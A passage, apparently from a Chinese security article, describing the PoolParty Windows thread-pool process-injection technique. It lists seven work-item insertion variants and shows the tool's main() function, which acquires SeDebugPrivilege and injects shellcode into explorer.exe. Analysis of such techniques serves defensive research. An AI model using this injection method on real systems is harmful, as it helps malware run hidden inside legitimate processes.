 (RemoteTpWorkInsertion) 将 TP\_WORK 工作项插入目标进程的线程池  
(RemoteTpWaitInsertion) 将 TP\_WAIT 工作项插入目标进程的线程池  
(RemoteTpIoInsertion) 将 TP\_IO 工作项插入目标进程的线程池  
(RemoteTpAlpcInsertion) 将 TP\_ALPC 工作项插入目标进程的线程池  
(RemoteTpJobInsertion) 将 TP\_JOB 工作项插入目标进程的线程池  
(RemoteTpDirectInsertion) 将 TP\_DIRECT 工作项插入目标进程的线程池  
(RemoteTpTimerInsertion) 将 TP\_TIMER 工作项插入目标进程的线程池

```bash
int main(int argc, char** argv)
{
    InitLogging();

    try 
    {
        const auto CmdArgs = ParseArgs(argc, argv);

        if (CmdArgs.bDebugPrivilege)
        {
            w_RtlAdjustPrivilege(SeDebugPrivilege, TRUE, FALSE);
            BOOST_LOG_TRIVIAL(info) << "Retrieved SeDebugPrivilege successfully";
        }

        const auto Injector = PoolPartyFactory(CmdArgs.VariantId, CmdArgs.TargetPid);
        Injector->Inject();
    }
    catch (const std::exception& ex) 
    {
        BOOST_LOG_TRIVIAL(error) << ex.what();
        return 0;
    }

    return 1;
}
```

最后调用 InitLogging() 初始化日志。解析命令行参数并检查调试权限创建 PoolParty 派生类的实例，并调用 Inject 方法执行注入。最后执行效果如下成功将 shellcode 注入到 explore.exe 进程中去完成利用。

[![](assets/1707954192-49873640d99fa643f0d130bcbf1a10c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204221947-73407b78-c368-1.png)
